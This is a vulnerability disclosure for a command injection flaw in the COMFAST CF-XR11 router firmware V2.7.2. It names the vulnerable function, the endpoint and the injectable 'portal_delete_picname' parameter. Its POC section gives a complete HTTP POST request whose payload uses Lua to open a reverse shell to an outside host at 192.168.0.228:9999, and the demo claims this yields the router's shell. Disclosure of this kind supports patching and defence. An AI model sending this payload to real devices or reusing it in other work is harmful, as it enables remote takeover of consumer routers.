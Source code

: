 # CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_41171C`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `portal_delete_picname` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_41171C`, the program uses function `blobmsg_parse` to obtain the content of parameter `portal_delete_picname`  which is sent by `POST` request. On line 19, the attacker can complete command execution by controlling the `portal_delete_picname` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file HTTP/1.1
Host: 192.168.0.1
Content-Length: 180
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"portal_delete_picname":"1.img && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`\""}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

